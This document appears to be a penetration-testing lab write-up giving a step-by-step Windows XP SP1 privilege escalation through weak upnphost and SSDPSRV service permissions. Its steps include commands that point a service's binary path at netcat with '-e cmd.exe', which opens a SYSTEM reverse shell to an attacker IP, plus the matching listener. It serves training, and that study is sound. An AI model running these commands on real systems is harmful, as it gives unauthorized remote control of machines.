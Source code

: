 Privilege Escalation

1. Follow the method for exploiting Win XP SP1 from [fuzzysecurity](https://www.fuzzysecurity.com/tutorials/16.html) and [sohvaxus](https://sohvaxus.github.io/content/winxp-sp1-privesc.html). Specifically for this box, I used sohvaxus.

2. Download Accesschk.exe and eula from here.
`https://xor.cat/assets/other/Accesschk.zip`
On attack machine, these files are located at `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/accesschk`
![71527c50ecddeb52c93e350ed1c28c1f.png](../../../_resources/7026d217696f48679b480fe61c8ff594.png)

3. Transfer accesschk.exe and Eula.txt to the target via ftp. **Ensure you download in binary mode**
![b2c4d7c9cacafb42f5423a0c56b12399.png](../../../_resources/5d77e3a9d74e40b9ac21add728efeaed.png)

4. On the target, Go to the directory where it was loaded and then query vulnerable services we can exploit.
`accesschk.exe /accepteula -uwcqv "Authenticated Users" *`
![2d8a03f5ae7a6823b646d51c796d6cb6.png](../../../_resources/2ebe3da4cbcb4d2297c1c42c50437012.png)

5. View the SSDPSRV service
`accesschk.exe /accepteula -ucqv SSDPSRV`
![1a9f53a99SSDPSRV service
a6911e0f625fdf25215567.png](../../../_resources/3a0d730f372f45f9a7ed07d794a7958f.png)

6. View the upnup host
`accesschk.exe /accepteula -ucqv upnphost`
![6e9f8f4457ad849480fdb1cdb29bfd98.png](../../../_resources/a3f82febd59d4464a256bdbae9760931.png)

7. Check the parameters upnup. You'll see that it has a dependency on  SSDPSRV
`sc qc upnphost`
**Screenshot is missing**

8. Check the parameters for SSDPSRV. Notice that it is disabled.
`sc qc SSDPSRV`
![008771297bf4268db164aa1f0bd38c2c.png](../../../_resources/67d1c722b0d642bf81793b9281a2c815.png)

9. Query status for SSDPSRV
`sc query SSDPSRV`
![b093e2def6e743007d7013cdf051ad36.png](../../../_resources/21c7d15a1cd44c07b96149081857b2be.png)

10. Attempt to start the SSDPSRV service
`net start SSDPSRV`
![4f33eccea5646728efb11392ec7243f5.png](../../../_resources/221a9330b1714a73a71194b1d9559d18.png)

11. Set SSDPSRV to AUTOMATIC/ **Be sure to follow the syntax which shows that there is a single space between '=' and 'auto'**
`sc config SSDPSRV start= auto`
![89db5ef8c170df2bf00fcaaea5223ad0.png](../../../_resources/c4d5c0c3cdbc402bbd18a96019417ee2.png)

12. Double check that SSDPSRV is set to automatic
`sc qc SSDPSRV`
![ebb96f83a87129a25adcc4eaaf3b9907.png](../../../_resources/3abcc51507ed40dd834c6b41be5b3376.png)

13. Try again to start SSDPSRV
`net start SSDPSRV`
![9144f354bcb2b81042102df424f61de5.png](../../../_resources/764310a094384938894f44398ca7e70d.png)

14. Download netcat from here. I used the 1.12 version
`https://eternallybored.org/misc/netcat/`
On attack machine, it is located at: `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/netcat`
![f9271a36eb375d961d9bc3de332d29f3.png](../../../_resources/a3a324b1de0b4dd3a95b8e2bba972100.png)

15. Upload nc.exe to your target via FTP. **Ensure it is in binary mode**
![46f2c85b704eae726afdad8afff6a554.png](../../../_resources/38c4d3b6c83440e8bdc85cd1a49e151e.png)

16. Verify the path where nc.exe is located on the target. In this case: `C:\Inetpub\nc.exe`
![7dd83231d712b3567dcf7a68bb5661fe.png](../../../_resources/198938cd711045f68ad7895a4ea5ab3d.png)

17. Set a new binary path for netcat
`sc config upnphost binpath= "C:\Inetpub\nc.exe -nv 192.168.119.214 6789 -e C:\WINDOWS\System32\cmd.exe"`
![ca19c73880f110123e688784ccc414b9.png](../../../_resources/f57ba7209e86454ca0d1400364d24c79.png)

18. Set object and password
`sc config upnphost obj= ".\LocalSystem" password= ""`
![9ce6aa2d0b513b72ba85dde6bb265263.png](../../../_resources/142cd89be25a4cacae5d77660353c44c.png)

19. Set a netcat listener on attack machine
`sudo nc -lvnp 6789`
![f0de3b4e82698588e2224b05e44d5ce5.png](../../../_resources/a767ebec0c3d46daa1e3ec1005d55009.png)

20. Check again that everything is fine
`sc qc upnphost`
![fc678f3f4d9a7efd4b0337ad200aae73.png](../../../_resources/4676556a25e74095ae58b79eecd9d480.png)

21. Run upnphost, you'll see that you have system on the netcat listener port 6789. You'll have 30 seconds to get the proof.txt
`net start upnphost`
![f779a950a57533c9206a323a171f6937.png](../../../_resources/80e8faae4608439da038bf4b80724b8e.png)

22. To get a shell lasting more than 30 min, follow this. **This is still a TO-DO on this box!!**
![IMG_1859.PNG](../../../_resources/cf91c7e9e3e64c2b856ecb90d0072624.PNG)


